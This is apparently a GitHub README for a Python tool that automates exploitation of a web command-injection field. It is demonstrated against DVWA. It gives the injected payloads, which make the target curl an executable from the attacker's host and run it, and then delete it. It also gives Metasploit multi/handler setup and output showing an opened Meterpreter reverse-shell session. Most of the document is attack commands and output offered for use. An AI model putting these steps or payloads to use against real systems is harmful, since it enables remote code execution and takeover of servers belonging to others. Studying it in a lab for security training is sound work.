 ## Command Injection Tool

This tool can be utilised when attacker has found a field with command injection possible.  It will automate the process and will provide you with a meterpreter shell.

- You'll need a **webserver** running at **port 80** in same directory as script. (tool will prompt you).
- You'll need **msfvenom** and **msfconsole** installed.

### Usage

```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444


usage: command_inejction.py [-h] [-p PARAM] [-t TARGET] [-u URL] [-c COOKIES]
                            [-m METHOD] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PARAM, --param PARAM
                        Param: -p Submit:Submit;Login:Login;
  -t TARGET, --target TARGET
                        Target Param: -t ip
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
```

### Step 1
- Run the program.
```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444
```
- Output
```
[+] You'll need to host a web server at 192.168.0.111:4444 at path /home/baba/GitHub/ethical-hacking-scripts/BugBountyHunter/Automation/command_injection.
[...] sudo python3 -m http.server 80
[*] Hit enter once done... 
```
### Step 2
- Start a web server in same directory as command_injection.py.
```
sudo python3 -m http.server 80
```
- Hit Enter

```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |curl 192.168.0.111/shell.exe -o shell.exe
[+] You'll need to start a handler at LHOST:192.168.0.111, LPORT:4444 in msfconsole. 
        Set Payload to windows/meterpreter/reverse_tcp. Set RHOST to 
[*] Hit enter once done... 
```
### Step 3
- Start metasplpoit and multi/handler.
```
msfconsole

msf6 > use multi/handler  
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 192.168.0.111
LHOST => 192.168.0.111

msf6 exploit(multi/handler) > run  
  
[*] Started reverse TCP handler on 192.168.0.111:4444

```
- Hit Enter
```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |shell.exe
```
- We have shell
```
[*] Sending stage (175174 bytes) to 192.168.0.104  
[*] Meterpreter session 1 opened (192.168.0.111:4444 -> 192.168.0.104:50322) at 2021-01-18 20:04:17 +0530  
  
meterpreter > 
```

- Finally, when you exit or close the session. It will remove all the files created for it to work.

```
[-] Cleaning up...
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |del shell.exe

```
